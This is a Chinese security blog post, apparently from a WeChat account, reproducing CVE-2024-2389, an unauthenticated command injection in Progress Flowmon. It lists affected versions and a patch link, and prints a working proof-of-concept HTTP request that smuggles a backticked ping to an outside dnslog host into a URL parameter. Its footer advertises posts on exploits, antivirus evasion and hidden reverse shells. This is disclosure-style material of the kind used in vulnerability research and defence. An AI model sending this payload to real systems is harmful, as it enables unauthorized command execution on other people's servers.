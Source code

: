 #  CVE-2024-2389 命令执行漏洞(附EXP)   
 EchoSec   2024-04-26 13:30  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Progress Flowmon是Progress公司的一个实时网络流量监控工具。Progress Flowmon 11.1.14之前的11.x版本和12.3.5之前的12.x版本存在安全漏洞，该漏洞源于存在操作系统命令注入漏洞，未经身份验证的用户可以通过管理界面访问系统，从而执行任意系统命令。0x02影响版本Progress Flowmon 11.1.14之前的11.x版本和12.3.5之前的12.x版本0x03漏洞复现  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDnJ4Q61zXthnicpbia1AlTYyrh7DW7N1aIXq0GrbKOHdkBm1gVtrZIAJHL7Xjy9OduciazGgvqqW9hA/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现 POC （GET）漏洞复现GET /service.pdfs/confluence?lang=en&file=`ping%20wpzmtaazjp.dgrh3.cn` HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15Connection: closeAccept: */*Accept-Language: enAccept-Encoding: gzip             测试dnslog3.nuclei工具测试（漏洞存在）0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerabilityhttps://support.kemptechnologies.com/hc/en-us/articles/19957432995213-Download-Flowmon-12-3弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 HVV内推通道↓↓↓高薪招聘 | 诚招Hvv“攻防演练”工程师！扫码或者点击下方链接报名投递简历即可记得备注【EchoSec】优先直推面试哦~http://gywa.com.cn/cTiWka后台回复关键字【内推面试】也可投递~祝师傅们面试顺利！！GoodLucky！！ 往期回顾1111☆☆☆☆☆ | CVE-2023-33246 RCE漏洞（附EXP）☆☆☆☆☆ | 横向移动与域控权限维持方法总汇☆☆☆☆☆ | Apache HTTPd最新RCE漏洞复现☆☆☆☆☆ | CNVD-2023-34111 RCE漏洞（附EXP）☆☆☆☆☆ | Cobalt Strike免杀脚本生成器|cna脚本|bypassAV☆☆☆☆☆ | MySQL数据库利用姿势☆☆☆☆☆ | phpMyAdmin漏洞利用汇总☆☆☆☆☆ | 泛微E-Mobile任意文件上传漏洞（附EXP）☆☆☆☆☆ | 小技巧~用一条命令来隐藏反向Shell☆☆☆☆☆ | New免杀ShellCode加载器（附下载）☆☆☆☆☆ | 红队攻防 | 解决HW被疯狂封IP姿势～（附下载） 关注我获得更多精彩觉得内容不错，就点下“赞”和“在看”如侵权请私聊公众号删文  
